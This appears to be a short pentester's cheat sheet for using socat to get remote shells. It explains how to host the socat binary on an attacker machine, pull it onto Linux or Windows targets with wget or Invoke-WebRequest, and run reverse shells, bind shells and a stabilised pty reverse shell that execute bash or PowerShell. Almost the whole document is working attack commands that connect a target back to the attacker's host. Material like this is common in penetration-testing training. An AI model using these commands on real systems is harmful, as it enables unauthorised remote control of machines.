 <h5>socat</h5>
preferred way for linux machines

**transfer socat no dependency on target machine**
local
cd ~/Documents

```
sudo python3 -m http.server 80
```

rhost (linux)
```
 wget <lhost ip>/socat -O /tmp/socat
```

rhost (windows psh)

```
Invoke-WebRequest -uri <lhost>/socat.exe -outfile C:\\Windows\temp\socat.exe
```

BASIC CONNECTION

```
 socat TCP-L:<port> -
```
```
socat TCP: <lhost>:<lport> EXEC:powershell.exe,pipes
```
```
socat TCP:<lhost>:<lport> EXEC:"bash -li"
```

bind shells listeners
```
socat TCP-L:<PORT> EXEC:"bash -li"
```
```
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```

bind shell connect
```
socat TCP:<rhost>:<rport> -

```
reverse shell stable lister
```
socat TCP-L:<port> FILE:`tty`,raw,echo=0
```

shell for this
```
socat TCP:<lhost>:<lport> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

![file:///tmp/.3I5P42/1.png](file:///tmp/.3I5P42/1.png)